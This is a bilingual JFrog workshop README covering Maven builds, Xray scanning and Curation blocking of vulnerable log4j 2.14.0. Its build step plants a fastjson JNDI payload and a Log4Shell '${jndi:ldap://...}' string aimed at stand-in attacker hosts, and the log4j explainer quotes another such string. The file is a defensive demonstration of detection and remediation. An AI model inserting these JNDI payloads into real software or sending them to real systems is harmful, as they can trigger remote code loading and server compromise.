










# JFrog POC Samples

本仓库包含 JFrog 平台（Artifactory、Xray、Curation 等）的示例项目与客户培训 Workshop 材料，涵盖 Maven、Docker、NPM、Go、.NET、Python 等技术的构建、部署与安全扫描。

---

<details open>
<summary>English</summary>

## Workshop Objectives

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  

**By the end of this workshop, you will be able to:**

1. **Apply for a JFrog SaaS trial** and set up your environment (repos, Xray, CLI).
2. **Clone and configure** the Maven sample project and connect it to your Artifactory repos.
3. **Build and deploy** the project using JFrog CLI and publish build info.
4. **Understand and remediate** security vulnerabilities using JFrog Xray (scan, review, block, fix).

## Quick Operation Guide (Steps Overview)

| Step | Action |
|------|--------|
| 1 | Apply for JFrog SaaS trial; select region (e.g. Singapore/Tokyo). |
| 2 | Clone this repo and go to `maven-sample`. |
| 3 | Create Maven local/remote/virtual repos in Artifactory. |
| 4 | Enable Xray indexing for the repos and build pattern `**/*`. |
| 5 | Install & configure JFrog CLI (`jf c add`), then Maven (`jf mvnc`). |
| 6 | Build & deploy: `jf mvn clean install` / `jf mvn deploy` / `jf rt bp`. |
| 7 | Verify artifacts and build info in Artifactory. |
| 8 | Review Xray findings, then use Curation to block vulnerable version and fix (e.g. log4j). |
| 9 | Rebuild and confirm the issue is resolved. |

## 📝 Prerequisites

### JDK 17 Installation
1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://jdk.java.net/archive/)
   - Select JDK 17 (LTS) version
   - Choose the appropriate package for your operating system:
     - Windows: `.zip` archive
     - macOS: `.tar.gz` archive
   - For Windows:
     - Extract the `.zip` to a directory like `C:\Program Files\Java\jdk-17`
   - For macOS:
     - Extract the `.tar.gz` to `/Library/Java/JavaVirtualMachines/`

### Set Environment Variables

#### JAVA_HOME
1. Open System Properties (Win + S → "Environment Variables")
2. Click "Environment Variables" → "New" under System variables
3. Set:
   ```
   Variable name: JAVA_HOME
   Variable value: C:\Program Files\Java\jdk-17
   ```
4. In System variables, select "Path" → "Edit"
5. Click "New" and add:
   ```
   %JAVA_HOME%\bin
   ```
6. Click "OK" to save

### Verify Installation
   ```bash
   # Check Java version
   java -version
   ```
   Expected output:
   ```
   openjdk version "17.0.2" 2022-01-18
   OpenJDK Runtime Environment (build 17.0.2+8)
   OpenJDK 64-Bit Server VM (build 17.0.2+8, mixed mode, sharing)
   ```

### Maven 3.6.3
1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - Download the Binary zip archive (e.g., `apache-maven-3.6.3-bin.zip`)
2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.6.3
     ```
#### MAVEN_HOME Environment variables
1. In System variables, click "New"
2. Set:
   ```
   Variable name: MAVEN_HOME
   Variable value: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   ```
3. In "Path" variable, click "Edit"
4. Click "New" and add:
   ```
   %MAVEN_HOME%\bin
   ```
5. Click "OK" on all windows to save

> **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.

#### Verify Installation
   ```bash
   # Open a new Command Prompt and run:
   mvn -version
   ```
   Expected output:
   ```
   Apache Maven 3.6.3 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   Java version: 17.0.2, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk-17
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
   Select "14-Day Free Trial", it will give you your own JFrog Platform.
   

2. **Select AWS Region**
   - Choose either AWS Singapore or Tokyo region
   - This will provide better network performance for users in Asia
   - The region selection is available during the trial signup process

3. You will get an email containing the login credentials for the JFrog platform

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories

1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Enable Xray Scanning
1. Go to **Administrator -> Xray Settings → Index Resource**
2. Add to indexed Repository:
   - Repositories: `sample-libs-snapshot-local` `sample-libs-release-local`
3. Configure Index Build by Pattern:
   - Click Manage builds -> By Pattern
   - Input the rule as below: `**/*`
   - Click the + button
   - This will scan all builds in the system
     

### 5. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   This command will:
   - Add a new JFrog configuration named 'saas'
   - Prompt you to enter your JFrog platform details
   - Store your credentials securely
   - Set up the connection to your JFrog SaaS instance

   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password

### 6. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `.jfrog/projects/maven.yaml` pointing to your SaaS repositories.

### 7. Build and Deploy

Add the code below into the file DemoApplication.java -> main() under jfrog-poc-samples\maven-sample\src\main\java\com\example\jfrog\demo, to call the log4j vulnerable function.
```
    public static void main(String[] args) {
        String payload = "{\"@type\":\"org.apache.shiro.jndi.JndiObjectFactory\",\"resourceName\":\"ldap://127.0.0.1:1389/Exploit\"}";
        JSON jsonObject = JSON.parseObject(payload);
        logger.info(jsonObject.toString());
        logger.error("${jndi:ldap://somesitehackerofhell.com/z}");

    }
```

```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 8. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.


#### Review the False Positive Results

> **86% of critical/high vulnerabilities are false positives**



#### 9.2 Block Vulnerable Version

1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   

2. **Create Policy:**  
   

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should be successful and the issue was fixed.

7. **Analysis of Vulnerability Fixing Trends:**
Platform → Xray → Scan List → Builds


The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**

</details>

<details>
<summary>繁體中文</summary>

## 工作坊目標

歡迎參加 **JFrog SaaS 試用工作坊！** 🎓  

**完成本工作坊後，您將能夠：**

1. **申請 JFrog SaaS 試用**並完成環境設置（倉庫、Xray、CLI）。
2. **克隆並配置** Maven 示例項目，並連接到您的 Artifactory 倉庫。
3. **使用 JFrog CLI** 構建、部署項目並發布構建資訊。
4. **理解並修復** 安全漏洞：使用 JFrog Xray 掃描、審查、阻擋並修復（如 log4j）。

## 操作指導摘要

| 步驟 | 操作 |
|------|------|
| 1 | 申請 JFrog SaaS 試用；選擇區域（如新加坡/東京）。 |
| 2 | 克隆本倉庫並進入 `maven-sample`。 |
| 3 | 在 Artifactory 中建立 Maven 本地/遠程/虛擬倉庫。 |
| 4 | 為倉庫啟用 Xray 索引，並設定構建模式 `**/*`。 |
| 5 | 安裝並配置 JFrog CLI（`jf c add`），再配置 Maven（`jf mvnc`）。 |
| 6 | 構建與部署：`jf mvn clean install` / `jf mvn deploy` / `jf rt bp`。 |
| 7 | 在 Artifactory 中驗證制品與構建資訊。 |
| 8 | 查看 Xray 結果，使用 Curation 阻擋易受攻擊版本並修復（如 log4j）。 |
| 9 | 重新構建並確認問題已解決。 |

## 📝 前置需求

### JDK 17 安裝
1. **安裝 JDK**
   - 從 [OpenJDK](https://jdk.java.net/archive/) 下載並安裝 JDK
   - 選擇 JDK 17 (LTS) 版本
   - 選擇適合您作業系統的套件：
     - Windows：`.zip` 壓縮檔
     - macOS：`.tar.gz` 壓縮檔
   - Windows 系統：
     - 解壓 `.zip` 到目錄，如 `C:\Program Files\Java\jdk-17`
   - macOS 系統：
     - 解壓 `.tar.gz` 到 `/Library/Java/JavaVirtualMachines/`

### 設置環境變數

#### JAVA_HOME
1. 打開系統屬性（Win + S → "環境變數"）
2. 點擊"環境變數" → 在系統變數下點擊"新建"
3. 設置：
   ```
   變數名稱：JAVA_HOME
   變數值：C:\Program Files\Java\jdk-17
   ```
4. 在系統變數中，選擇"Path" → "編輯"
5. 點擊"新建"並添加：
   ```
   %JAVA_HOME%\bin
   ```
6. 點擊"確定"保存

### 驗證安裝
   ```bash
   # 檢查 Java 版本
   java -version
   ```
   預期輸出：
   ```
   openjdk version "17.0.2" 2022-01-18
   OpenJDK Runtime Environment (build 17.0.2+8)
   OpenJDK 64-Bit Server VM (build 17.0.2+8, mixed mode, sharing)
   ```

### Maven 3.6.3
1️⃣ **下載 Maven**
   - 訪問 [Apache Maven 下載頁面](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - 下載二進制 zip 檔案（例如：`apache-maven-3.6.3-bin.zip`）
2️⃣ **解壓 Maven**
   - 將下載的 ZIP 檔案解壓到目錄，例如：
     ```
     C:\Program Files\Apache\Maven
     ```
   - 您的 Maven 資料夾結構應該如下：
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.6.3
     ```
#### MAVEN_HOME 環境變數
1. 在系統變數中，點擊"新建"
2. 設置：
   ```
   變數名稱：MAVEN_HOME
   變數值：C:\Program Files\Apache\Maven\apache-maven-3.6.3
   ```
3. 在"Path"變數，點擊"編輯"
4. 點擊"新建"並添加：
   ```
   %MAVEN_HOME%\bin
   ```
5. 點擊所有視窗的"確定"保存

> **注意：** 設置環境變數後，您需要打開新的命令提示字元才能使更改生效。

#### 驗證安裝
   ```bash
   # 打開新的命令提示字元並運行：
   mvn -version
   ```
   預期輸出：
   ```
   Apache Maven 3.6.3 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   Java version: 17.0.2, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk-17
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

## 🚀 開始使用

### 1. 申請 JFrog SaaS 試用
1. [申請 JFrog SaaS 試用](https://jfrog.com/start-free/)  
   選擇"14 天免費試用"，它將為您提供自己的 JFrog 平台。
   

2. **選擇 AWS 區域**
   - 選擇 AWS 新加坡或東京區域
   - 這將為亞洲用戶提供更好的網絡性能
   - 區域選擇在試用註冊過程中可用

3. 您將收到一封包含 JFrog 平台登入憑證的電子郵件

### 2. 克隆項目
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. 創建 Maven 倉庫

1. 登入 JFrog SaaS 平台
2. 點擊**快速倉庫創建**（右上角）
3. 選擇 **Maven** 並創建：
   - 本地倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
   - 遠程倉庫：`sample-maven-remote`
   - 虛擬倉庫：`sample-libs-snapshot` `sample-libs-release`

### 4. 啟用 Xray 掃描
1. 轉到 **管理員 -> Xray 設置 → 索引資源**
2. 添加到索引倉庫：
   - 倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
3. 配置構建索引模式：
   - 點擊 Manage builds -> By Pattern
   - 輸入規則如下：`**/*`
   - 點擊 + 按鈕
   - 這將掃描系統中的所有構建
     

### 5. 配置 JFrog CLI
1. [下載 JFrog CLI](https://jfrog.com/getcli/)
2. 配置您的環境：
   ```shell
   jf c add saas
   ```
   此命令將：
   - 添加一個名為 'saas' 的新 JFrog 配置
   - 提示您輸入 JFrog 平台詳細信息
   - 安全存儲您的憑證
   - 設置與您的 JFrog SaaS 實例的連接

   按照提示輸入：
   - JFrog 平台 URL：`https://<YOUR_DOMAIN>.jfrog.io`
   - 用戶名
   - 密碼

### 6. 配置 Maven
```shell
cd maven-sample
jf mvnc
```
這將生成指向您的 SaaS 倉庫的 `.jfrog/projects/maven.yaml`。

### 7. 構建與部署
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 8. 驗證部署
- 在 **Artifactory → Artifacts** 中檢查已部署的文件
- 在 **Builds** 部分查看構建信息

### Understanding log4j Vulnerability
檢測到 log4j 漏洞（CVE-2021-44228）是因為您的項目使用了 log4j-core 2.14.0。但是，只有在以下情況下才會被利用：

1. 使用易受攻擊的日誌模式：
   ```java
   // 易受攻擊
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // 安全
   logger.info("User logged in: {}", username);
   ```

2. **並且**當：
   - 記錄用戶控制的輸入
   - 輸入包含 `${jndi:ldap://...}` 模式
   - 應用程序可以訪問惡意服務器

這解釋了為什麼 Xray 顯示許多誤報 - 代碼中存在漏洞，但在您的使用場景中無法被利用。

### 9. 修復 log4j 漏洞

#### 9.1 審查漏洞
JFrog 高級安全已將此 log4j 包識別為真實漏洞。您可以在安全報告中查看詳細證據。


#### 審查誤報結果

> **86% 的嚴重/高風險漏洞是誤報**


#### 9.2 阻止易受攻擊的版本

1. **創建阻止條件：**  
   管理員 → 策展設置 → 創建條件  
   

2. **創建策略：**  
   

3. **清理緩存：**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **驗證阻止：**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   

5. **修復：更新 log4j 版本**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **重新構建：**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

構建應該成功，問題已修復。

7. **漏洞修復趨勢分析：**
平台 → Xray → 掃描列表 → 構建


構建應該成功完成，確認安全問題已修復。

> **祝您構建愉快，保持安全！🚀**

</details>

---

## 本倉庫其他示例

| 目錄 | 說明 |
|------|------|
| `maven-sample` | Maven 構建、部署與 Xray/Curation 演示（本 Workshop 主流程） |
| `docker-sample` | Docker 鏡像構建與推送到 Artifactory |
| `npm-sample` | NPM 項目與 JFrog CLI |
| `go-sample` | Go 模組構建與發布 |
| `dotnet-sample` | .NET 項目與 Artifactory |
| `python-sample` | Python/pip 與 PyPI 倉庫 |
| `Xray-best-practices` | Xray 報告導出、Curation 等最佳實踐 |
| `oss-governence` | 開源包治理與策略 |
| `azure-devops-integration` | Azure DevOps 與 JFrog 整合 |
| `cloudbees-jenkins-integration` | Jenkins/CloudBees 與 JFrog 整合 |
